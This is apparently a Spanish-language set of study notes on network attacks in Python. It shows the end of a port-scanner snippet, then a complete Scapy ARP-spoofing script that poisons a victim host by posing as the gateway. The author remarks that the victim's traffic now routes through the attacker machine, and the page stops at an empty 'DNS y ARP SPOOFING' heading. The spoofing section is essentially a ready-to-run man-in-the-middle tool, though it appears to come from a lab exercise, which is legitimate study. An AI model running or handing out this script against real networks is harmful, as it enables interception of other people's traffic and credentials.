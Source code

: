 ```python

    open_ports = scan_ports(target_ip, start_port, end_port)
    
    if open_ports:
        print(f"Puertos abiertos en {target_ip}: {open_ports}")
    else:
        print(f"No se encontraron puertos abiertos en {target_ip} en el rango {start_port}-{end_port}.")
```
![[Pasted image 20240531163825.png]]
## ARP SPOOFING

```python
from scapy.all import ARP, Ether, sendp, get_if_hwaddr, conf

# Configura la IP del objetivo y la IP del remitente
objetivo = "192.168.0.19"  # Dirección IP del objetivo
gateway_ip = "192.168.0.1"  # Dirección IP del gateway (router)

# Obtiene la interfaz de red por defecto
interfaz_red = conf.iface

# Obtiene la dirección MAC de la interfaz de red
source_mac = get_if_hwaddr(interfaz_red)

# Configura la solicitud ARP (ARP Response) para spoofing
arp_response = ARP(
    pdst=objetivo,
    hwdst="ff:ff:ff:ff:ff:ff",  # Broadcast MAC para asegurarse de que se recibe
    psrc=gateway_ip,
    hwsrc=source_mac  # Dirección MAC de la interfaz de red
)

# Envuelve el paquete ARP en un paquete Ethernet
paquete_arp = Ether(dst="ff:ff:ff:ff:ff:ff") / arp_response

# Envía los paquetes ARP en un bucle continuo
try:
    print(f"[+] Iniciando ARP spoofing en {objetivo} en la red {gateway_ip}")
    sendp(paquete_arp, iface=interfaz_red, loop=1, inter=0.5)  # Enviar un paquete cada 0.5 segundos
except KeyboardInterrupt:
    print("\n[+] Spoofing terminado.")
```
Aquí vemos como primero no hay ARP Spoofing pero después la máquina víctima pasa por nuestra máquina atacante (que tiene la IP 192.168.0.28):
![[Pasted image 20240531110615.png]]
## DNS y ARP SPOOFING
